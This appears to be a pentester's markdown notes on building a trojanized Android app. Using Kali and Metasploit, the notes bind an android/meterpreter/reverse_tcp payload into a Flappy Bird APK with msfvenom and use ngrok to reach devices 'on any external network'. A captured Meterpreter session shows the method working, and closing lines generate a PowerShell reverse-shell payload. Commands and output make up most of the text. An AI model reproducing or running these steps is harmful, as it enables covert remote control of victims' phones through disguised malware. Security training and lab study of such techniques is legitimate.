```
┌──(kali㉿kali)-[~/dev/exploits_files]
└─$ sudo apt-get install apksigner
```
- easiest way to solve PATH issues : re-install apktool `sudo apt-get remove apktool`
- follow step for Linux [apk tool install](https://ibotpeaches.github.io/Apktool/install/) ; https://raw.githubusercontent.com/iBotPeaches/Apktool/master/scripts/linux/apktool

- install apk on android device + run listener on kali

# Ngork : infect device on any external network
```
ngrok is the programmable network edge that adds connectivity, security, and observability to your apps with no code changes 
```
- create online account on https://ngrok.com/
- download ngrok + install + setup
- `./ngrok tcp 5555`
```
Hello World! https://ngrok.com/next-generation

Session Status                online                                                                                                                                               
Account                       jeanlefou (Plan: Free)                                                                                                 
Version                       3.1.0                                                                   
Region                        Europe (eu)                               
Latency                       14ms                                                                                                                                                 
Web Interface                 http://127.0.0.1:4040                                                                                                                                               
Forwarding                    tcp://4.tcp.eu.ngrok.io:14047 -> localhost:5555                                                                                                                                                        Connections                   ttl     opn     rt1     rt5     p50     p90                                                                                                                                                                  
                              0       0       0.00    0.00    0.00    0.00         

┌──(kali㉿kali)-[~/dev/exploits_files]
└─$ host 4.tcp.eu.ngrok.io      
4.tcp.eu.ngrok.io has address 18.198.77.177

┌──(kali㉿kali)-[~/dev/exploits_files]
└─$ msfvenom -p -x flappy-bird-1-3-en-android.apk -p android/meterpreter/reverse_tcp LHOST=18.198.77.177 LPORT=14047 -o flappybird.apk
```
- msfconsole, 1 diff : set LHOST 0.0.0.0 # -> listen on any interface

it worked!
```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:5555 
[*] Sending stage (78179 bytes) to 127.0.0.1
[*] Meterpreter session 3 opened (127.0.0.1:5555 -> 127.0.0.1:41830) at 2022-09-21 12:27:38 +0200

meterpreter > hostname
[-] Unknown command: hostname
meterpreter > help
```


[powershell/meterpreter/rev_tcp>>]: set SLEEP 42
[powershell/meterpreter/rev_tcp>>]: set LHOST <kali ip>
[powershell/meterpreter/rev_tcp>>]: generate